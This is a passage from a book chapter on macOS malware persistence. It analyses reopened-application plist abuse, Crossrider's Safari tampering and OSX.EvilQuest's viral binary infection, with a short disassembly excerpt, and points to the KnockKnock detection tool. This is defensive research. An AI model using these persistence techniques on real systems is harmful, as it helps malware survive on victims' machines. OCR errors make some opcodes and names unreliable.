Any rules to be persistently executed by emond can be found in the /etc/emond.d/rules or /private/var/db/emondClients directories [43].

#### Re-opened Applications

In 2014, in my original research paper [1] on the topic of persistence, I noted that malware could (ab)use Apple's support for "reopened" applications as a means to achieve automatic (re)execution each time the user logs in:


#### reopen applications prompt

When a user logs out, the applications to reopen are stored in a property list named com.apple.loginwindow.<UUID>.plist within the ~/Library/Preferences/ByHost directory.

Viewing the contents of this property list reveals keys, containing values such as: the bundle identifier of the application, whether to hide it, and the path to the application to (re)launch:


To persist, malware could add itself directly to this property list, and thus be (re)executed on the next login.

#### Application/Binary Modification

Stealthy malware may achieve persistence by modifying legitimate programs (applications, binaries, etc) found on the infected system. If these programs are then launched, either automatically by the operating system or manually by the user, the malicious code will run.

In early 2020, security researcher Thomas Reed released a report [44] that highlighted the sophistication of adware targeting macOS.

In this report, he noted that the prolific adware, Crossrider, will subvert Safari in order to persist various (malicious) browser extensions:

> "As part of this [installation] process, it also makes a copy of Safari that is modified to automatically enable certain Safari extensions when opened, without user actions required.

After this process completes, the copy of Safari is deleted, leaving the real copy of Safari thinking that it's got a couple additional browser extensions installed and enabled." [44]

Another example, also from early 2020, is OSX.EvilQuest [15]. This malware initially persists as a launch item (com.apple.questd.plist), but will also virally infect binaries on the system. This ensures that even if the launch item is removed, the malware will still retain persistence! As such viral persistence is rarely seen on macOS, let's take a closer look.

When initially executed OSX.EvilQuest, spawns a new background thread to find and infect other binaries. The function responsible for generating a list of candidates is aptly named get_targets, while the infection function is called append ei:

| 01 | ei_loader_thread: |  |  |
| --- | --- | --- | --- |
| 02 | 0x000000010000c9a0 | push | rbp |
| 03 | 0x000000010000c9a1 | mov | rbp, rsp |
| 04 | 0x000000010000c9a4 | sub | rsp, 0x30 |
| 05 | 0x000000010000c9a8 | lea | rcx, qword [_is_executable] |
| 06 |  |  |  |
| 07 | 0x000000010000c9e0 | call | get_targets |
| 08 | 0x000000010000c9e5 | стр | eax. 0x0 |
| 09 | 0x000000010000c9e8 | jne | leave |
| 10 |  |  |  |

| 11 ● 0x00000010000ca17 | mov | rsi, qword [rax] |
| --- | --- | --- |
| 12 0x000000010000ca1a | call | append_ei |

Each candidate binary, found via the get targets function, is passed to the append ei function.

The append ei function writes the contents of the malware (i.e. itself) to the start of the target binary, while (re)writing the original target bytes to the end of the file. It then writes a trailer to the end of the file that includes an infection marker, 0xDEADFACE, and the offset in the file to the original target's bytes.

Once a binary has been infected, since the malware has wholly inserted itself at the start of the file, whenever the file is subsequently executed the malware will be executed first!

Of course, to ensure nothing is amiss, the malware also executes the contents of the original file. This is accomplished by parsing the trailer to get the location of the file's original bytes. These bytes are then written out to a new file named: .<orginalfilename>1, which the malware then executes.

/ Note:

For more information on OSX.EvilQuest's viral infection and persistence capabilities, see:

"OSX.EvilQuest Uncovered (Part II): Insidious Capabilities" [45]

#### ...and more!

Although we have covered a myriad of persistence mechanisms that Mac malware can (and does!) abuse to ensure it is automatically restarted, there are yet other ways.

Here we provide several other resources that also cover common persistence mechanisms in detail, as well as discuss potential methods yet to be abused:

- "Methods of Malware Persistence on mac OS X" [1] ■
- "How Malware Persists on macOS" [43] ■
- I "MITRE ATT&CK: Persistence" [45]

In volume two, we'll discuss the detection of Mac malware, including how to programmatically uncover these persistent mechanisms. However, if you're interested in what software (or malware!) is persistently installed on your macOS system, I've created a free utility just for this purpose! KnockKnock [6] tells you who's there by querying your system for the myriad of persistence mechanisms discussed in this chapter:


KnockKnock? Who's There? [6]

#### Up Next

In this chapter we discussed numerous persistence mechanisms that macOS malware has abused to maintain persistence access to infected systems. And for good measure, discussed several alternative methods that have yet to be leveraged in the wild for malicious purposes.

In the next chapter, we'll explore the common objectives of malware, once it has persistently infected a Mac system.

#### References

- 1. "Methods of Malware Persistence on mac OS X" 
- 2. "Designing Daemons and Services"  mStartup/Chapters/DesigningDaemons.html#//apple ref/doc/uid/10000172i-SW4-BBCBHBFB
- 3. "Block Blocking Login Items"  0x31.html
- 4. "Burned by Fire(fox) part i: a Firefox 0day Drops a macOS Backdoor (OSX.Netwire)"  0x43.html
- 5. "Middle East Cyber-Espionage: Analyzing WindShift's implant: OSX.WindTail"  0x3B.html
- 6. KnockKnock 
- 7. "Automatically start app after install in Mac OS El Capitan" 
- 8. "The Mac Malware of 2019"  0x53.html
- 9. "The Mac Malware of 2019: OSX.CookieMiner  0x53.html#osx-cookieminer
- 10. "The Mac Malware of 2019: OSX.Siggen  0x53.html#osx-siggen
- "Burned by Fire(fox) part iii: a Firefox 0day Drops another macOS backdoor 11. (OSX.Mokes)"  0x45.html
- "Understanding Apple's binary property list format" 12.  da00dbd
- 13. "A Launchd Tutorial" 
- OSX.GMERA (A/B) 14.  0x53.html#osx-gmera-a-b
- OSX.EvilQuest Uncovered part i: infection, persistence, and more! 15.  0x59.html
- 16. Cron 
- EmPyre: a post-exploitation OS X/Linux agent 17. 
- "New Mac Malware Janicab Uses Old Trick To Hide" 18. 
- 19. "Scheduling Jobs With Crontab on macOS"  -crontab-on-macos-add5a8b26c30
- 20. "Dynamic Library Programming Topics"  /DynamicLibraries/000-Introduction/Introduction.html#//apple ref/doc/uid/TP40001908 - SMJ
- 21. "Simple code injection using DYLD INSERT LIBRARIES"  insert libraries/
- 22. "Trojan-Downloader:OSX/Flashback.B"  osx flashback b.shtml
- 23. "Hardened Runtime"  runtime
- "The 'S' in Zoom, Stands for Security" 24.  0x56.html
- 25. "Dylib hijacking on OS X"  f
- 26. Dylib Hijack Scanner 
- 27. Dylib Hijack Scanner App 

#### 28. EmPvre Dvlib Hijack Module  ateHijacker.py

- 29. "MacOS Dylib Injection through Mach-O Binary Manipulation"  dylib injection.html
- DYLD INSERT LIBRARIES DYLIB injection in macOS / OSX 30.  insert libraries dylib injection in macos o sx deep dive/
- 31. "Inside Safari Extensions | Malware's Golden Key to User Data"  ata/
- "iTunes Evil Plugin Proof of Concept" 32.  gin-proof-of-concept/
- 33. "Using Authorization Plug-ins"  plug-ins/using aut horization plug-ins
- 34. "Two macOS persistence tricks abusing plugins" 
- "macOS persistence Spotlight importers and how to create them" 35.  persistence spotlight importers/
- "Writing Bad @$$ Malware for OS X" 36.  r-OS-X.pdf
- OS X Incident Response: Scripting and Analysis (J. Bradley) 37. 
- "What is the difference between "periodic" and "cron" on OS X?" 38. 
- 39. atq x-man-page://atq

- *OS Internals, Volume I User Mode 40. 
- 41. "Leveraging Emond on macOS For Persistence" 
- "Mitre ATT&CK: Emond" 42. 
- 43. "How Malware Persists on macOS" 
- 44. "Mac adware is more sophisticated and dangerous than traditional Mac malware"  s-than-traditional-mac-malware/
- 45. "OSX.EvilQuest Uncovered part ii: Insidious Capabilities  0x60.html
- 46. "MITRE ATT&CK: Persistence" 

